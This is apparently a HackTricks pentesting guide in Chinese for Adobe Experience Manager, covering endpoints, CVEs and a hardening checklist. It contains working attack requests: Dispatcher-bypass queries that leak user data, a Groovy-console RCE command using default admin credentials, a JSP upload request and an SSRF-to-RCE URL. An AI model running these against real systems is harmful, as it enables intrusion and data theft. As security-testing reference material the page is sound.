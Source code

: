 # AEM (Adobe Experience Manager) Pentesting

{{#include ../../banners/hacktricks-training.md}}

> Adobe Experience Manager (AEM, part of the Adobe Experience Cloud) 是一个企业级内容管理系统，运行在 Apache Sling/Felix (OSGi) 和 Java 内容库 (JCR) 之上。
> 从攻击者的角度来看，AEM 实例经常暴露危险的开发端点、弱 Dispatcher 规则、默认凭据以及每季度修补的众多 CVE。

下面的检查清单专注于 **外部可访问的 (unauth) 攻击面**，在真实的渗透测试中不断出现 (2022-2025)。

---

## 1. Fingerprinting
```
$ curl -s -I https://target | egrep -i "aem|sling|cq"
X-Content-Type-Options: nosniff
X-Dispatcher: hu1            # header added by AEM Dispatcher
X-Vary: Accept-Encoding
```
其他快速指标：
* `/etc.clientlibs/` 静态路径存在（返回 JS/CSS）。
* `/libs/granite/core/content/login.html` 登录页面带有“Adobe Experience Manager”横幅。
* `</script><!--/* CQ */-->` HTML 底部的注释。

---

## 2. 高价值未认证端点

路径 | 获取内容 | 备注
---- | ------------- | -----
`/.json`, `/.1.json` | 通过 **DefaultGetServlet** 获取 JCR 节点 | 通常被阻止，但 *Dispatcher 绕过*（见下文）有效。
`/bin/querybuilder.json?path=/` | QueryBuilder API | 页面树、内部路径、用户名泄露。
`/system/console/status-*`, `/system/console/bundles` | OSGi/Felix 控制台 | 默认 403；如果暴露且找到凭据 ⇒ bundle-upload RCE。
`/crx/packmgr/index.jsp` | 包管理器 | 允许认证内容包 → JSP 负载上传。
`/etc/groovyconsole/**` | AEM Groovy 控制台 | 如果暴露 → 任意 Groovy / Java 执行。
`/libs/cq/AuditlogSearchServlet.json` | 审计日志 | 信息泄露。
`/libs/cq/ui/content/dumplibs.html` | ClientLibs 转储 | XSS 向量。

### Dispatcher 绕过技巧
大多数生产网站位于 *Dispatcher*（反向代理）后面。其过滤规则可以通过在分号或编码换行符后附加允许的静态扩展来绕过：
```
GET /bin/querybuilder.json;%0aa.css?path=/home&type=rep:User HTTP/1.1
```
单个请求如上常常会泄露用户个人资料节点及电子邮件地址。P-T Partners 发布了关于此弱点的良好指导。 【】

---

## 3. 常见的错误配置（在2025年仍然存在）

1. **匿名POST servlet** – `POST /.json` 与 `:operation=import` 允许您植入新的JCR节点。 在Dispatcher中阻止 `*.json` POST可以解决此问题。 【】
2. **全世界可读的用户资料** – 默认ACL在 `/home/users/**/profile/*` 上授予每个人 `jcr:read` 权限。
3. **默认凭据** – `admin:admin`，`author:author`，`replication:replication`。
4. **WCMDebugFilter** 启用 ⇒ 通过 `?debug=layout` 反射XSS（CVE-2016-7882，仍在遗留的6.4安装中发现）。
5. **Groovy控制台暴露** – 通过发送Groovy脚本进行远程代码执行：
```bash
curl -u admin:admin -d 'script=println "pwn".execute()' https://target/bin/groovyconsole/post.json
```

---

## 4. 最近的漏洞（服务包节奏）

季度 | CVE | 受影响版本 | 影响
------- | --- | -------- | ------
2024年12月 | **CVE-2024-43711** | 6.5.21及更早版本 | 不当输入验证 → **任意代码执行**（需要低权限认证）。 【】
2024年12月 | CVE-2024-43724/26 | 6.5.21及更早版本 | Move Page Wizard中的DOM / 存储XSS。 【】
2023年12月 | CVE-2023-48452/68 | ≤ 6.5.18 | 通过精心制作的URL进行基于DOM的XSS。 【】
2022年12月 | CVE-2022-30683 | ≤ 6.5.13 | 加密设计缺陷 → 秘密解密（需要低权限凭据）。 【】

始终检查与客户的服务包匹配的*APSB*公告，并请求最新的 **6.5.22** 或 *Cloud Service 2024.11*。

---

## 5. 利用片段

### 5.1 通过dispatcher绕过 + JSP上传的RCE
如果允许匿名写入：
```
# 1. Create a node that will become /content/evil.jsp
POST /content/evil.jsp;%0aa.css HTTP/1.1
Content-Type: application/x-www-form-urlencoded

:contentType=text/plain
jcr:data=<% out.println("pwned"); %>
:operation=import
```
现在请求 `/content/evil.jsp` – JSP 以 AEM 进程用户身份运行。

### 5.2 SSRF 到 RCE（历史 < 6.3）
`/libs/mcm/salesforce/customer.html;%0aa.css?checkType=authorize&authorization_url=http://127.0.0.1:4502/system/console`
来自 **aem-hacker** 的 `aem_ssrf2rce.py` 自动化整个链条。 【】

---

## 6. 工具

* **aem-hacker** – 瑞士军刀式枚举脚本，支持调度器绕过、SSRF 检测、默认凭据检查等。
```bash
python3 aem_hacker.py -u https://target --host attacker-ip
```【】
* **内容暴力破解** – 递归请求 `/_jcr_content.(json|html)` 以发现隐藏组件。
* **osgi-infect** – 如果凭据可用，通过 `/system/console/bundles` 上传恶意 OSGi 包。

---

## 7. 加固检查清单（用于报告的建议）

1. 保持实例在 **最新的累积服务包** 上（截至 2025 年 7 月：6.5.22）。
2. 移除/轮换默认账户；强制实施 SSO/SAML。
3. 收紧 **调度器过滤器** – 拒绝 `;`、编码换行符，以及匿名用户的 `*.json` 或 `*.querybuilder.json`。
4. 禁用或保护控制台（`/system/console`、`/crx/*`、`/etc/groovyconsole`），使用 IP 允许列表。
5. 应用 Adobe 提供的 *匿名权限加固* 包。

## 参考

* Adobe 安全公告 APSB24-69 – “Adobe Experience Manager 的安全更新（2024 年 12 月）”。
* 0ang3el – aem-hacker 工具（GitHub）。
{{#include ../../banners/hacktricks-training.md}}
